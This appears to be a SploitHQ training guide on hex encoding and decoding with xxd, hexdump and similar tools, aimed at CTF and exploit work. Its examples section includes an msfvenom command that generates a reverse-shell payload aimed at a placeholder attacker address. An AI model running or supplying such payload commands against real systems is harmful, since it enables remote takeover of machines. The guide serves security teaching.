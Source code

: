 # Hex Encoding & Decoding – View, Convert, and Manipulate Hex Data

Hexadecimal (base-16) encoding is commonly used to represent binary data in a readable format. It’s often used in reverse engineering, CTFs, exploit development, file inspection, and shellcode crafting.

🔗 [Use the Hex Tools on SploitHQ](https://sploithq.com/hex)

---

## 🔍 What Can You Do with Hex?

- View raw file content in a structured format
- Encode strings or binaries to hexadecimal
- Decode hex back into plain text or binary
- Inject encoded payloads into scripts or memory
- Analyze or compare binary data byte-by-byte

---

## ⚙️ Encode to Hex

### Encode a string to hex:
```bash
echo -n 'SploitHQ' | xxd -p
```

Output:
```
53706c6f69744851
```

### Encode a file:
```bash
xxd -p file.bin > file.hex
```

Or with `hexdump`:
```bash
hexdump -ve '1/1 "%.2x"' file.bin
```

---

## 🔁 Decode from Hex

### Decode a hex string to text:
```bash
echo '53706c6f69744851' | xxd -r -p
```

Output:
```
SploitHQ
```

### Decode a hex file back to binary:
```bash
xxd -r -p file.hex > file.bin
```

---

## 🧰 Tools and Commands

| Tool       | Purpose                         | Example Command                              |
|------------|----------------------------------|-----------------------------------------------|
| `xxd`      | Hex dump and reverse             | `xxd -p` / `xxd -r -p`                         |
| `hexdump`  | Display hex with formatting      | `hexdump -C file`                             |
| `od`       | Octal/hex dump                   | `od -tx1 file`                                |
| `printf`   | Encode small hex snippets        | `printf '\x41\x42\x43'` outputs `ABC`         |
| `echo -e`  | Hex to text (limited)            | `echo -e '\x41\x42\x43'`                      |

---

## 🧪 CTF/Exploit Examples

### Encode shellcode as hex:
```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=1.2.3.4 LPORT=4444 -f hex
```

### Decode hex-encoded payload from a web log:
```bash
echo '2f62696e2f7368' | xxd -r -p
```

Output:
```
/bin/sh
```

---

## ⚠️ Notes

- Hex is **not encryption**; it's a readable encoding of binary.
- Use `base64` or `iconv` for other encoding schemes.
- Great for transforming payloads for use in HTTP, SQLi, or buffer overflows.

---

## 🌐 SploitHQ Binary Tools

👉 [Use the Hex Tools on SploitHQ](https://sploithq.com/binary)

- Encode/decode text and files
- View and manipulate binary data
- Copy output directly for payloads or scripting

---

## 🔗 Useful Links

- [xxd Man Page](https://linux.die.net/man/1/xxd)
- [HexEd.it – Online Hex Editor](https://hexed.it/)
- [SploitHQ Binary Analysis Tools](https://sploithq.com/hex)

---

## 📄 License

Hex encoding is a data representation format and freely used in Unix utilities.  
This guide is maintained by [SploitHQ](https://sploithq.com) for cybersecurity training, CTFs, and reverse engineering.
